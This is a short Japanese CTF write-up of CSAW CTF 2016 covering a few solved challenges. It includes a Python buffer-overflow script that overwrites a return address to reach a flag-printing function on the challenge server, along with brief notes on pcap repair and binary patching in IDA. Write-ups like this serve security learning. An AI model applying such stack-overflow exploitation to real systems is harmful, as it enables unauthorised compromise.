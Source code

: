 ```yaml
---
layout: post
title: CSAW CTF 2016 writeup
---
```


CTF wo Suruで参加しました. 1051ptsで, 149/1274位でした.

Cry\*1, Rev\*2, For\*1, Pwn\*3, Web\*1解きました.

自分が解いた問題だけwrieup

misc25, crypto50, pwn300はウサギさんが解いた.

まだされていないけど, 後でwriteupがpostされると思う.

<a href="https://kimiyuki.net/">https://kimiyuki.net/</a>

## Notesy 2.0 - crypto1

問題文にFLAG

## Kill - forensics50

pcapngファイルが渡されるが, 先頭の4バイトか8バイトか忘れたけど壊れていたので

ググって直した.

一番通信量が多いポートでフィルタをかけて, follow tcp stremでFLAG見つかる.

## Warmup - pwn50

FLAGを出力してくれる関数があるので, BOF

```python
from No___Op import *

target = 'pwn.chal.csaw.io:8000'

flag = 0x00000000040060d

c = Pwning( target )

payload = 'a' * 72
payload += p64(flag)

c.sendall(payload)

print c.recv()
```

## Gametime - rev50

IDA Freeでポチポチしてたら出てきた
条件分岐の所で, 本来ジャンプする所の逆にIP向けてたらFLAG出てきた
